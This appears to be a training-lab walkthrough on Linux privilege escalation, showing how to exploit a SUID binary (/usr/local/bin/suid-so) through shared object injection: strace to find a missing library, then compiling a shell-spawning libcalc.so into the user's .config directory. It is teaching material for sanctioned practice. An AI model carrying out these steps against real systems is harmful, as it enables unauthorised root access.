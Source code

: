 ## SUID / SGID Executables - Shared Object Injection

The /usr/local/bin/suid-so SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting.

**Victim**

```
/usr/local/bin/suid-so
```

Run strace on the file and search the output for open/access calls and for "no such file" errors.

**Victim**

```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

<figure><img src="../../.gitbook/assets/image (1) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file.

**Victim**

```
mkdir /home/user/.config
```

Example shared object code can be found at /home/user/tools/suid/libcalc.c. It simply spawns a Bash shell. Compile the code into a shared object at the location the suid-so executable was looking for it.

**Victim**

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```
